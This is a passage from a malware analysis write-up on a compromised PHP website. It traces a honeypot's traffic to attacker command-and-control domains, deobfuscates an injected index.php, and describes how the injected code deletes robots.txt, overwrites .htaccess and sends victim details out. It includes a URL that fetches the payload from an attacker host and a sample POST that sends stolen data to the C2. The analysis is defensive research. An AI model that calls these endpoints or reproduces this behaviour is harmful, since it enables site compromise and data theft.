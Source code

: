 ---------------------



### `/index.php`

After creating the honeypot site and submitting the URL to the C2, many requests started coming in with different request parameters (as demonstrated in the request sent to `GET http://51la.izv3.com/` in the [`/wp-admin/network/index.php`](#wp-adminnetworkindexphp) section).

One of requests being:

```
Time: 2023-01-01 06:06:52pm
IP: 23.83.247.59
Request Obj:a:4:{s:2:"ac";s:5:"i_old";s:3:"api";s:31:"http://3843-ch4-v22.freeykc.com";s:4:"path";s:37:"/home4/path/to/host/public_html/<victim domain>.com";s:1:"t";s:32:"9e9a4d7fcd456b678f18e7397fbf47c6";}
```

Using these parameters we can build the following URL that would normally get created from [`admin.php`](#adminphp-1): `http://c.oiv3.com?api=http://3843-ch4-v22.freeykc.com&ac=i_old&path=/home4/path/to/host/public_html/<victim domain>.com&t=9e9a4d7fcd456b678f18e7397fbf47c6`

Performing a `GET` on this URL gives us the following response:

`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#index-initial-payload.php`

Of which, the long base64 encoded string at the top, gives us [the infected version of `index.php`](#indexphp-and-contentphp). Deobfuscating the output of this on the root `/index.php` gives us the following:

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#index.php`

In the first step, the code defines a `main()` function, passing in a new C2 domain of `http://3829-ch4-v26.zxckid.com`. The first non-parameterized step in `main()` is a function called `delete_robotstxt_and_overwrite_htaccess()`, which does a search for the `robots.txt` file and deletes it. Then, it searches for the `.htaccess` file and overwrites it with the same contents found in the infected host `.htaccess` file at the beginning of our analysis.

The second step calls the `create_data_transmit_request()` function to send information about the infected host back to the C2. The transmit request function contains several different methods to send data back to the C2 depending on what is available to the infected host. This code can use: [`curl_init`](https://www.php.net/manual/en/function.curl-init.php), [`fsockopen`](https://www.php.net/manual/en/function.fsockopen.php), [`pfsockopen`](https://www.php.net/manual/en/function.pfsockopen.php), [`stream_socket_client`](https://www.php.net/manual/en/function.stream-socket-client.php), and [`socket_create`](https://www.php.net/manual/en/function.socket-create.php)

The equvilant `POST` request to the C2 would be something like:

```
Method: POST
URL: http://3829-ch4-v26.zxckid.com
Body:
{
    "domain": "<victim hostname>",
    "request_url": "/index.php",
    "user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36",
    "ip": "<ip of request originator>"
}
```
